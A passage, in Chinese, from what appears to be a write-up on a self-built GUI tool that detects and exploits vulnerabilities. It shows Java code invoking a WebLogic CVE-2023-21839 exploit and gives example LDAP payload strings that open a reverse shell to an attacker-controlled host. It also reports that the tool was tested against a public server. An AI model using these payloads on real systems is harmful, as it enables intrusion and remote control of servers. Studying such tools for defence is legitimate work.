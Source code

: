 #### 实现效果

工具测试结果：

目标地址不存在漏洞的测试如图：

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202403201554911.png" alt="对目标地址不存在该漏洞的检测结果" style="zoom:50%;" />



目标地址点击检测后发现存在漏洞，点击执行后返回获取到的敏感信息，如图

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202403201554719.png" alt="对存在该漏洞的目标检测的结果" style="zoom:50%;" />



### 3.2 Weblogic未授权RCE漏洞的探测和利用

​	根据Weblogic未授权远程代码执行漏洞原理联合检测按钮设计如下功能：用户提前搭建好LDAP服务器和利用功能，输入目标URL和LDAP服务器地址，点击检测按钮实现对目标进行漏洞探测和利用。

```java
else if (name[0].equalsIgnoreCase("weblogic RCE")){
    if(url == null || payload == null){
        textArea1.appendText("[*]用法：目标ip:端口 ldap地址,都不能空！\ne.g. 192.168.1.1:7001 192.168.1.2:1389/Basic/ReverseShell/192.168.1.2/1111\n");
    }else {
        CVE_2023_21839.poc(url,payload);
        d =new Date();
        time = new SimpleDateFormat("yyyy-MM-dd HH:mm:ss").format(d);
        textArea1.appendText("[+] 目标:"+url+",请求已发送"+time+" 自行查看dnslog/ldap服务器检查结果\n");
    }
}
```

​	这里我将漏洞利用功能的具体请求利用代码编写集成在CVE_2023_21839类，在之前介绍Weblogic漏洞原理的章节部分已提及关键代码的解释，这里不再赘述。类的封装入口是URL和LDAP服务器地址，无返回，类功能实现通过构造恶意对象对LDAP服务器发送请求。



#### 	实现效果

​	工具测试结果:

​	1）对目标公网服务器存在该漏洞的探测，如图

<img src="https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202403201604645.png" alt="对公网服务器存在该漏洞的检测结果" style="zoom:50%;" />

​	

​	2）公网服务器本地搭建LDAP服务器，点击执行按钮反弹内网虚拟机Docker的shell到终端，命令输入1.xxx:1389/Basic/ReverseShell/1.xxx/5003，实现反弹shell，如图

![对公网服务器存在该漏洞的利用结果](https://pb-1307852621.cos.ap-chengdu.myqcloud.com/typora/202403201606746.png)



### 3.3 Cobalt Strike RCE漏洞的自查和反制

​	根据Cobalt Strike远程代码执行漏洞原理联合按钮实现以下功能：
